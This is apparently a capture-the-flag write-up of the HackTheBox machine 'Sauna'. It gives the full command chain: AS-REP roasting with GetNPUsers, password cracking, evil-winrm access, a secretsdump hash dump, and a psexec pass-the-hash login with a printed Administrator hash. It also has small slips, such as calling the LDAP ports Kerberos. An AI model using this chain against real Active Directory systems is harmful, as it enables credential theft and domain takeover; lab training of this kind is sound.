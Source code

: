 ```yaml
---
title: "Hackthebox Sauna Writeup"
date: 2020-07-20 00:00:00 +0530
categories: [HACKTHEBOX, Retired]
tags: [htb]
---
```

![img1]({{ "/assets/img/Posts/sauna/1.png" | relative_url }})

Let's begin the journey of exploiting the box. It's an easy windows box with 20 points. We will be utilizing some of the tools such as [EvilWinRm](https://github.com/Hackplayers/evil-winrm) , [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) , winPEAS , and mimikatz.exe and secretdump.py for privilege escalation.


# **Enumeration**

We will be running [nmapAutomator](https://github.com/21y4d/nmapAutomator) tool which would cover all types of basic enumeration.

```console
./nmapAutomator 10.10.10.175 All
```

The result is as below

```console
Nmap scan report for 10.10.10.175
Host is up (0.30s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020–07–17 03:55:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/16%Time=5F10BD89%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,”\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\SF:x04bind\0\0\x10\0\x03");
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49686/tcp open msrpc Microsoft Windows RPC
58118/tcp open msrpc Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h05m02s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020–07–17T03:57:44
|_ start_date: N/A
```

There are a bunch ports open lets list down the ports which would be useful in exploiting the box. There is Web server running at port 80. We have kerberos service running at port 389 and 3268 .We also got the domain name which got revealed by ldap service EGOTISTICAL-BANK.LOCAL .

I moved on to enumerating with enum4linux but didn't find any usernames. We even tried enumerating the SMB but didn't find something interesting .

As we got the HTTP port open lets enumerate the website.

![img2]({{ "/assets/img/Posts/sauna/2.png" | relative_url }})

After visiting the website found some user names in the "About-us"

![img3]({{ "/assets/img/Posts/sauna/3.png" | relative_url }})

Let's take a note of the usernames with a type of combination which would help us in enumeration during the ldap and kerberos. Below is the format in which we could form the user.txt.

![img4]({{ "/assets/img/Posts/sauna/4.png" | relative_url }})

After getting some usernames. We would be using the Impacket tool which has a GetNPUsers python script that returns the TGT(Ticket Granting Ticket) only if the user account doesn't need kerberos per-authentication.


# **Exploitation**

Now we would run the GetNPUsers.py against the domain name which will give us the TGT for the user FSmith.

```console
$ python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile user.txt -outputfile tgt.txt -dc-ip 10.10.10.175
```
![img5]({{ "/assets/img/Posts/sauna/5.png" | relative_url }})

![img6]({{ "/assets/img/Posts/sauna/6.png" | relative_url }})

After cracking the hash with john using rockyou.txt file we achieved the password for

>FSmith : Thestrokes23

![img7]({{ "/assets/img/Posts/sauna/7.png" | relative_url }})

Now we will login using evil-winrm.

![img8]({{ "/assets/img/Posts/sauna/8.png" | relative_url }})

After logging in as FSmith we got the user.txt file. Now lets move on to the post-exploitation.

![img9]({{ "/assets/img/Posts/sauna/9.png" | relative_url }})


# **Post-Exploitation**

Let us first list down the users present .

![img10]({{ "/assets/img/Posts/sauna/10.png" | relative_url }})

The method is to use "winPEAS.exe" to collect information and get the password of svc_loanmgr and as we got DPAPI Master key which we could attack with mimikatz.

![img11]({{ "/assets/img/Posts/sauna/11.png" | relative_url }})

Then execute the winPEAS.exe file . Below are some interesting finding.

![img12]({{ "/assets/img/Posts/sauna/12.png" | relative_url }})

Now we have got the default password for svc_loanmgr user .

In the results of ./winPEAS.exe we got DPAPI master key which we could attack with mimikatz.

Lets dump the hashes by [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```console
$ python3 secretsdump.py EGOTISTICAL-BANK/svc-loanmgr@10.10.10.175
```

![img13]({{ "/assets/img/Posts/sauna/13.png" | relative_url }})

Now lets use the Administrator hash to get logged in using the [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)


```console
$ python3 python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
```

![img14]({{ "/assets/img/Posts/sauna/14.png" | relative_url }})

Bingo we have successfully rooted the box .


**By Swar Shah**
<br>

![img15]({{ "/assets/img/Posts/sauna/15.png" | relative_url }})
